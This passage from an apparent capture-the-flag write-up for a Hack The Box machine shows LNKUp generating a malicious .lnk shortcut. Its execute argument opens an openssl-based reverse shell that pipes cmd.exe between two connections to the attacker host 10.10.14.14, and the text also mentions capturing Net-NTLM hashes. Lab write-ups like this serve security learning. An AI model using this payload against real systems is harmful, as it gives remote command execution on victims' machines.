 

#### LNKUp

[LNKUp](https://github.com/Plazmaz/LNKUp) is an lnk payload generator
written in python. LNKUp is really designed to work with Responder to
capture Net-NTLM, but I can use it to make the payload I want for this
case. To create a similar lnk file to the one I did above, I'll run the
following:



    root@kali# python /opt/LNKUp/generate.py --host localhost --type ntlm --out vs-mod.lnk --execute "C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73|cmd.exe|C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136"

      ~==================================================~
    ##                                                    ##
    ##  /$$       /$$   /$$ /$$   /$$ /$$   /$$           ##
    ## | $$      | $$$ | $$| $$  /$$/| $$  | $$           ##
    ## | $$      | $$$$| $$| $$ /$$/ | $$  | $$  /$$$$$$  ##
    ## | $$      | $$ $$ $$| $$$$$/  | $$  | $$ /$$__  $$ ##
    ## | $$      | $$  $$$$| $$  $$  | $$  | $$| $$  \ $$ ##
    ## | $$      | $$\  $$$| $$\  $$ | $$  | $$| $$  | $$ ##
    ## | $$$$$$$$| $$ \  $$| $$ \  $$|  $$$$$$/| $$$$$$$/ ##
    ## |________/|__/  \__/|__/  \__/ \______/ | $$____/  ##
    ##                                         | $$       ##
    ##                                         | $$       ##
    ##                                         |__/       ##
      ~==================================================~

    File saved to /media/sf_CTFs/hackthebox/ethereal-10.10.10.106/vs-mod2.lnk
    Link created at vs-mod2.lnk with UNC path \\localhost\Share\36855.ico.



The `--host` and `--type` parameters are really just to get it to run.
The important part is the `--execute`.

For some reason, `pylnker` can't read anything from the file that is
generated. Still, this file will work.

### Upload
